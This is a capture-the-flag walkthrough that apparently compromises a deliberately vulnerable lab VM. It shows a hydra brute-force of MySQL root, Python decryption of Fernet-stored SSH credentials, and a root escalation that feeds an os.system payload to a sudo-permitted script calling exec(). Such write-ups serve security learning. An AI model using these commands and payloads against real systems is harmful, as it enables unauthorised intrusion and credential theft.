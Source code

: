 OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                                           |
| -------- | ----------- | -------------------------------------------------------------------- |
| 1337     | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                       |
| 3306     | MySQL       | MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1 &rarr; *Salt: **"(APO{@jw7JP3MgBRU_ |

### Exploitation

Mysql can be brute-forced for a password for the user root. Used hydra for this as follows &rarr; `hyda -l root -P rockyou.txt -t 4 mysql://192.168.63.118`. The password was `prettywoman`. With the new password, looking at mysql databases using the following &rarr; `mysql -u root -h 192.168.63.118 -p`.

Looking into the mysql shell, the database is `data` and the table is `fernet`. The table has the following entry &rarr;

cred &rarr; `gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=`

keyy &rarr; `UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=`

The given key and credentials are not any encoding format such as base64, etc. It is in fact fernet. The `cryptography` module in python has support for the fernet encryption. This can be decoded as follows using a python script &rarr;

```python
from cryptography.fernet import Fernet
decryptor = Fernet(b'UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=')
plaintext = decryptor.decrypt(b'gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=')
print(plaintext)
```

Running this as `python3 decrypt.py` gives the output as `b'lucy:wJ9`"Lemdv9[FEw-'`. These can be used as the credentials for ssh running on port 1337. Logging in to ssh with the above credentials gives the user `lucy` with a user flag in the home directory.

### Privilege Escalation

For privilege escalation, searched set uid binaries using the following find command &rarr; `find / -perm -u=s -type f 2>/dev/null`. This does show `sudo`. Listing commands that can be run by user `lucy` by using `sudo -l`, the python2 binary can be called for the file `/opt/exp.py`.

The file contains the following code &rarr;

```python
uinput = raw_input('how are you?')
exec(uinput)
```

`exec()` in python2 basically runs python inside it. Therefore, running the above with `sudo /usr/bin/python2 /opt/exp.py` and giving input as `import os; os.system(“whoami“);` returns `root`.

Therefore, a shell could even be spawned by changing the command, which gives the root flag in the `/root/` directory.

---